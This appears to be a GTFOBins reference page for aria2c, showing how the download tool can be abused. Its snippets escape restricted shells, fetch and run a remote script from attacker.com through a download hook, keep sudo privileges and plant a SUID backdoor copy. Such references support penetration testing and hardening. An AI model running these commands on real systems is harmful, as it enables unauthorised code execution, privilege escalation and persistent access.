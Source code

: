 # GTFOBin: aria2c

Note that the subprocess is immediately sent to the background.

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
aria2c --on-download-error=$TF http://x
```

The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.

```
aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request. Use `--allow-overwrite` if needed.

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
aria2c -o "$LFILE" "$URL"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo aria2c --on-download-error=$TF http://x
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which aria2c) .

COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
./aria2c --on-download-error=$TF http://x
```